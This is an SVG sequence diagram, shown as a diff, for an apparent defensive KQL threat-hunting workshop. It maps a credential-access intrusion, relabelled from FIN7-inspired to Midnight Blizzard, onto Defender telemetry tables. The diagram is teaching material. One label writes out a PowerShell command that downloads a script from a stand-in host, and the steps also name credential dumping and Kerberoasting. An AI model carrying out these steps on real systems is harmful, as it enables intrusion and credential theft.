

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 900" font-family="ui-sans-serif, system-ui, -apple-system, 'Segoe UI', Roboto, sans-serif">
  <defs>
    <marker id="arrowSeq" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="8" markerHeight="8" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="#cbd5e1" />
    </marker>
    <marker id="arrowSeqDashed" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="#64748b" />
    </marker>
  </defs>
  <rect x="20" y="20" width="1160" height="860" rx="14" fill="#0b1220" stroke="#1f2937" stroke-width="1.5" />
  <text x="600" y="58" text-anchor="middle" fill="#f1f5f9" font-size="20" font-weight="700">Attack Storyline — Sequence View</text>
-   <text x="600" y="80" text-anchor="middle" fill="#94a3b8" font-size="13">FIN7-inspired credential-access intrusion · time flows top to bottom · telemetry deposits to ADX shown as dashed</text>
+   <text x="600" y="80" text-anchor="middle" fill="#94a3b8" font-size="13">Midnight Blizzard credential-access intrusion · time flows top to bottom · telemetry deposits to ADX shown as dashed</text>
  <rect x="55" y="105" width="130" height="56" rx="8" fill="#3a1212" stroke="#ef4444" stroke-width="2" />
  <text x="120" y="128" text-anchor="middle" fill="#fecaca" font-size="13" font-weight="700">Attacker</text>
-   <text x="120" y="146" text-anchor="middle" fill="#fca5a5" font-size="10">FIN7-inspired</text>
+   <text x="120" y="146" text-anchor="middle" fill="#fca5a5" font-size="10">Midnight Blizzard</text>
  <rect x="205" y="105" width="130" height="56" rx="8" fill="#3a1d05" stroke="#f97316" stroke-width="2" />
  <text x="270" y="128" text-anchor="middle" fill="#fed7aa" font-size="13" font-weight="700">Entra ID</text>
  <text x="270" y="146" text-anchor="middle" fill="#fdba74" font-size="10">SigninLogs</text>
  <rect x="355" y="105" width="130" height="56" rx="8" fill="#3a1d05" stroke="#f97316" stroke-width="2" />
  <text x="420" y="128" text-anchor="middle" fill="#fed7aa" font-size="13" font-weight="700">MS Graph</text>
  <text x="420" y="146" text-anchor="middle" fill="#fdba74" font-size="10">Graph + CloudApp</text>
  <rect x="505" y="105" width="130" height="56" rx="8" fill="#0f3a1f" stroke="#22c55e" stroke-width="2" />
  <text x="570" y="128" text-anchor="middle" fill="#bbf7d0" font-size="13" font-weight="700">WIN11-04</text>
  <text x="570" y="146" text-anchor="middle" fill="#86efac" font-size="10">MDE endpoint</text>
  <rect x="655" y="105" width="130" height="56" rx="8" fill="#0b2a4a" stroke="#3b82f6" stroke-width="2" />
  <text x="720" y="128" text-anchor="middle" fill="#dbeafe" font-size="13" font-weight="700">DC01 / DC02</text>
  <text x="720" y="146" text-anchor="middle" fill="#93c5fd" font-size="10">MDI sensors</text>
  <rect x="805" y="105" width="130" height="56" rx="8" fill="#0b2a4a" stroke="#3b82f6" stroke-width="2" />
  <text x="870" y="128" text-anchor="middle" fill="#dbeafe" font-size="13" font-weight="700">AADCONNECT01</text>
  <text x="870" y="146" text-anchor="middle" fill="#93c5fd" font-size="10">Entra Connect</text>
  <rect x="955" y="105" width="170" height="56" rx="8" fill="#0f172a" stroke="#94a3b8" stroke-width="2" />
  <text x="1040" y="128" text-anchor="middle" fill="#f1f5f9" font-size="13" font-weight="700">Azure Data Explorer</text>
  <text x="1040" y="146" text-anchor="middle" fill="#cbd5e1" font-size="10">CyberDefenseKqlWorkshop</text>
  <line x1="120" y1="161" x2="120" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="270" y1="161" x2="270" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="420" y1="161" x2="420" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="570" y1="161" x2="570" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="720" y1="161" x2="720" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="870" y1="161" x2="870" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="1040" y1="161" x2="1040" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <text x="40" y="200" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+0</text>
  <text x="40" y="270" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+5m</text>
  <text x="40" y="350" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+15m</text>
  <text x="40" y="445" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+22m</text>
  <text x="40" y="530" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+35m</text>
  <text x="40" y="610" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+50m</text>
  <text x="40" y="695" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+73m</text>
  <text x="40" y="775" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+81m</text>
  <line x1="120" y1="200" x2="265" y2="200" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="190" y="192" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">1 · Compromised sign-in (MFA)</text>
  <text x="190" y="216" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">victor.alvarez · 185.225.73.18</text>
  <line x1="270" y1="232" x2="1035" y2="232" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="650" y="226" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">SigninLogs · EntraIdSignInEvents</text>
  <line x1="120" y1="270" x2="415" y2="270" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="265" y="262" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">2 · OAuth consent + Graph enumeration</text>
  <text x="265" y="286" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">malicious app · Mail.Read · Files.Read.All</text>
  <line x1="420" y1="302" x2="1035" y2="302" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="725" y="296" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">GraphApiAuditEvents · CloudAppEvents</text>
  <line x1="120" y1="350" x2="565" y2="350" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="340" y="342" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">3 · PowerShell staging on endpoint</text>
  <text x="340" y="366" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">iwr cdn.update-check.example/a.ps1 · drops to C:\ProgramData\wrstage</text>
  <line x1="570" y1="382" x2="1035" y2="382" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="800" y="376" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceProcessEvents · DeviceNetworkEvents</text>
  <line x1="120" y1="445" x2="565" y2="445" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="340" y="437" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">4 · Registry · SAM · browser · LSASS · password stores</text>
  <text x="340" y="461" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">T1552.002 · T1003.002 · T1555.003 · T1003.001 · T1555</text>
  <line x1="570" y1="478" x2="1035" y2="478" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="800" y="472" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceProcessEvents · DeviceFileEvents · DeviceRegistryEvents</text>
  <line x1="570" y1="530" x2="715" y2="530" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="640" y="522" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">5 · Kerberoasting from WIN11-04</text>
  <text x="640" y="546" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">Rubeus · LDAP SPN search · RC4 ticket request · T1558.003</text>
  <line x1="720" y1="562" x2="1035" y2="562" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="877" y="556" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">IdentityQueryEvents · IdentityLogonEvents</text>
  <line x1="570" y1="610" x2="1035" y2="610" stroke="#a855f7" stroke-width="1.8" stroke-dasharray="6 3" marker-end="url(#arrowSeqDashed)" />
-   <text x="800" y="602" text-anchor="middle" fill="#e9d5ff" font-size="11" font-weight="600">6 · Defender XDR fires alerts (FIN7-001 → FIN7-005)</text>
+   <text x="800" y="602" text-anchor="middle" fill="#e9d5ff" font-size="11" font-weight="600">6 · Defender XDR fires alerts (MB-001 → MB-005)</text>
  <text x="800" y="626" text-anchor="middle" fill="#d8b4fe" font-size="10" font-style="italic">AlertInfo · AlertEvidence populated for the credential-access chain</text>
  <line x1="570" y1="695" x2="865" y2="695" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="717" y="687" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">7 · Service-account lateral move</text>
  <text x="717" y="711" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">svc_sql · WinRM 5985 · cracked Kerberoast hash</text>
  <line x1="870" y1="727" x2="1035" y2="727" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="952" y="721" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceLogonEvents</text>
  <line x1="870" y1="775" x2="725" y2="775" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="797" y="767" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">8 · Directory recon</text>
  <text x="797" y="791" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">svc_azureadconnect delegation read</text>
  <line x1="870" y1="805" x2="1035" y2="805" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="952" y="799" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">IdentityDirectoryEvents</text>
  <text x="600" y="850" text-anchor="middle" fill="#94a3b8" font-size="11" font-style="italic">Solid arrows = attacker actions · Dashed arrows = telemetry deposits to ADX · Purple = Defender XDR alerts</text>
  <text x="600" y="868" text-anchor="middle" fill="#64748b" font-size="11" font-style="italic">Tactic: Credential Access · MITRE techniques: T1552.002 · T1003.001 · T1003.002 · T1555 · T1555.003 · T1558.003</text>
</svg>
